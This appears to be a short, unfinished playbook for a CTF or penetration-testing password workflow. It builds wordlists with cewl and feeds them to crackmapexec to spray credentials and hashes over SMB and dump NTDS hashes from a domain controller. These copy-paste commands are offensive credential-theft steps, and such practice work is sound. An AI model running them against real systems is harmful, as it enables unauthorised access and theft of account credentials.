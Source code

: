 No more forgetting to collect the obvious clues into a wordlist and manage the accretion of users, password hashes and passwords (clear).

This is 'workflow' / 'playbook' . Jut some simple steps to follow, ideally with copy and paste.  No more missing the obvious clues for usernames and passwords. It would also be great to have some malortron integration too.

The tools in the workflow:
* cewl
* nmap (-sC)
* crackmapexec
* bash pipelines
* john (for rules)
* john (for cracking)
* hashcat (for cracking)

The workflow has a repeated 'core':
1. take 'output' (usernames, clear passwords, wordlists)
2. rules them
3. append to ongoing wordlist

In each workflow task there is a) 'use ongoing wordlist' and b) 'feed outputs into the core.'

# Core

TODO take all words, usernames and passwords, concat and best64 them. save as `guesses.txt`

? If there are no users discovered, copy `guesses.txt` to `users.txt` ?

# CeWL -- Add to the Wordlist

`cewl -d 3 -o -a -m 4 --with-numbers -v -w wordlist.txt https://target.domain/` 

# CrackMapExec -- use guesses

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -p ${ctf}/guesses.txt --ntds drsuapi 10.1.0.100`

`--sam` instead for listing local accounts
`==shares` instead for listing shares

# CrackMapExec -- use hashes

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -H ${ctf}/hashes.txt --ntds drsuapi 10.1.0.100`

# CrackMapExec -- save usernames, passwords, hashes

TODO need the `cmedb` commands to dump users, passwords and hashes from cme
